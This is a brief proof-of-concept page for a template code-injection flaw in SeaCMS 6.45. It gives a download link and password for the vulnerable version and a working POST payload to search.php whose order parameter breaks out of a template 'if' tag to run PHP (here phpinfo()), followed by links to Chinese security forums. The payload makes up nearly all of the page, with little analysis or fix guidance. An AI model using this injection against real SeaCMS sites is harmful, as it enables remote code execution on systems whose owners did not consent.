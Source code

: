 ##  Affected Version

 下载地址：

 链接：https://pan.baidu.com/s/1uw_VnxnvG4GGEae4TRsGGw 

 密码：cd48




## POC



`http://127.0.0.1/seacms645/search.php`

`post:searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}`



![](http://opmi2ydgh.bkt.clouddn.com//18-7-5/92423502.jpg)



## References

[https://bbs.ichunqiu.com/thread-35085-1-1.html](https://bbs.ichunqiu.com/thread-35085-1-1.html)

[http://0day5.com/archives/4249/](http://0day5.com/archives/4249/)

[https://blog.csdn.net/qq_35078631/article/details/76595817](https://blog.csdn.net/qq_35078631/article/details/76595817)



